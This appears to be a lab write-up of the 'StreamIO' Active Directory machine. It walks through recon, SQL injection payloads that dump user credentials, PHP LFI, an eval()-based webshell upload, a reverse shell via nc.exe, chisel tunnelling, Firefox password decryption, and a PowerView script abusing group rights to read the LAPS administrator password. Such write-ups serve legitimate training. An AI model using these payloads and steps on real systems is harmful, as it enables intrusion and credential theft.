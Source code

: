 # StreamIO (AD)

## Gaining Access

Nmap Scan:

<figure><img src="../../../.gitbook/assets/image (71).png" alt=""><figcaption></figcaption></figure>

### HTTPS Cert

On port 443, we can head to the website to find some kind of streaming platform.

<figure><img src="../../../.gitbook/assets/image (64).png" alt=""><figcaption></figcaption></figure>

Checking the cert, we can find another domain name:

<figure><img src="../../../.gitbook/assets/image (31).png" alt=""><figcaption></figcaption></figure>

We can add this domain to our `/etc/hosts` files. Another notable thing we found was the login function on the main domain.&#x20;

### SQL Injection

The new domain leads us to a different website.

<figure><img src="../../../.gitbook/assets/image (46).png" alt=""><figcaption></figcaption></figure>

The page was written in PHP (visiting index.php brings us to home page), thus we can fuzz possible endpoints with the `.php` extension using `gobuster -x` flag.

<figure><img src="../../../.gitbook/assets/image (72).png" alt=""><figcaption></figcaption></figure>

Within `search.php`, we can find a query function.

<figure><img src="../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

This was vulnerable to SQL Injection, and the payload `a' union select 1,2,3,4,5,6;-- -` works. From here, we can enumerate out the users and tables present in the website.

<figure><img src="../../../.gitbook/assets/image (56).png" alt=""><figcaption></figcaption></figure>

Using the STREAMIO database, we can dump out the tables present:

<figure><img src="../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

Then, we can take a look at the users table. This can be done using `a' union select 1, concat(username, ':', password), 3,4,5,6 from users; -- -`.&#x20;

<figure><img src="../../../.gitbook/assets/image (54).png" alt=""><figcaption></figcaption></figure>

After getting all the credentials, we can crack the hashes and then brute force the `login.php` page we found earlier on `streamio.htb`. The user `yoshihide` and his password works!

### Debug Fuzz

Within the admin dashboard, we can see a few functionalities that cause a unique parameter of `?staff=` to be passed.&#x20;

<figure><img src="../../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

I found this rather interesting, and wanted to fuzz this more. I was able to find another `debug` endpoint using `wfuzz`.

<figure><img src="../../../.gitbook/assets/image (41).png" alt=""><figcaption></figcaption></figure>

I also used `gobuster` to see what other files were present on this directory.

<figure><img src="../../../.gitbook/assets/image (29).png" alt=""><figcaption></figcaption></figure>

`master.php` was the most unique.

### Eval RCE

Within the debug page, there isn't much visual difference apart from one line:

<figure><img src="../../../.gitbook/assets/image (35).png" alt=""><figcaption></figcaption></figure>

Because this page was in PHP, I tested the `debug` parameter with a common `php://filter` LFI exploit, and this worked!

<figure><img src="../../../.gitbook/assets/image (22).png" alt=""><figcaption></figcaption></figure>

We can then take a look at that `master.php` file we found earlier. The last bit was the most interesting.

<pre class="language-php"><code class="lang-php">&#x3C;?php
if(isset($_POST['include']))
{
    if($_POST['include'] !== "index.php" ) 
        eval(file_get_contents($_POST['include']));
else
<strong>    echo(" ---- ERROR ---- ");
</strong>}
?> 
</code></pre>

The `eval()` function was being used, and this was definitely vulnerable to some kind of RCE. So to construct the attack, we can attempt to upload a `cmd.php` webshell via encoding with base64 and then send it via a POST request with an `include` parameter.&#x20;

We can send this request here:

<figure><img src="../../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

And we finally have RCE on the machine. Then, we can gain a reverse shell via `nc.exe`.&#x20;

<figure><img src="../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

We don't have much control over the machine with this user, so we need to find another.

### MSSQL

When checking `netstat`, we can find a service listening on port 1433 that was not detectable earlier from our Kali machine.

<figure><img src="../../../.gitbook/assets/image (75).png" alt=""><figcaption></figcaption></figure>

Also, we can head to the `inetpub` folder to find credentials, of which we do within the `index.php` file:

<figure><img src="../../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

We can then port forward via `chisel`.&#x20;

```bash
# on Kali
./chisel server -p 8000 --reverse

# on Victim
.\chisel.exe client 10.10.16.12:8000 R:1433:127.0.0.1:1433
```

Using `mssqlclient.py`, we can access the database with the credentials we found.

<figure><img src="../../../.gitbook/assets/image (36).png" alt=""><figcaption></figcaption></figure>

I took a look at the streamio\_backup database and found credentials for a `nikk37` user.

<figure><img src="../../../.gitbook/assets/image (38).png" alt=""><figcaption></figcaption></figure>

The hash can be cracked via crackstation.

<figure><img src="../../../.gitbook/assets/image (30).png" alt=""><figcaption></figcaption></figure>

Then, we can `evil-winrm` in as this user:

<figure><img src="../../../.gitbook/assets/image (37).png" alt=""><figcaption></figcaption></figure>

### Firefox Passwords + Bloodhound

When I ran WinPEAS on this machine, it picked up on a Firefox credential file. We can use `firepwd.py` to decrypt the passwords.

<figure><img src="../../../.gitbook/assets/image (49).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://github.com/lclevy/firepwd/blob/master/firepwd.py" %}

Upon decrypting the `logins.json` file, we can find some more passwords.

<figure><img src="../../../.gitbook/assets/image (69).png" alt=""><figcaption></figcaption></figure>

Since we had credentials, I also ran a `bloodhound-python` to enumerate the objects within the host.

<figure><img src="../../../.gitbook/assets/image (44).png" alt=""><figcaption></figcaption></figure>

Found that the `jdgodd` user had some permissions over the Core Staff group.

<figure><img src="../../../.gitbook/assets/image (45).png" alt=""><figcaption></figcaption></figure>

And members of this Core Staff were able to ReadLAPSPassword for the DC.

<figure><img src="../../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

### ReadLAPSPassword

To exploit this, we would first need to add the `jdgodd` user into the Core Staff group, and then read the administrator password.

The adding can be done via remote Powershell and Powerview using the credentials we found from Firefox earlier for `jdgodd`.&#x20;

```powershell
$SecPassword = ConvertTo-SecureString 'JDg0dd1s@d0p3cr3@t0r' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('streamio\JDgodd', $SecPassword)
Add-DomainObjectAcl -Credential $Cred -TargetIdentity "Core Staff" -principalidentity "streamio\JDgodd"
Add-DomainGroupMember -Identity "Core Staff" -Members 'streamio\JDgodd' -Credential $Cred
```

<figure><img src="../../../.gitbook/assets/image (58).png" alt=""><figcaption></figcaption></figure>

Afterwards, we can use `crackmapexec` modules to read the LAPS password.

<figure><img src="../../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

Then, we can `evil-winrm` in as the administrator.

<figure><img src="../../../.gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>

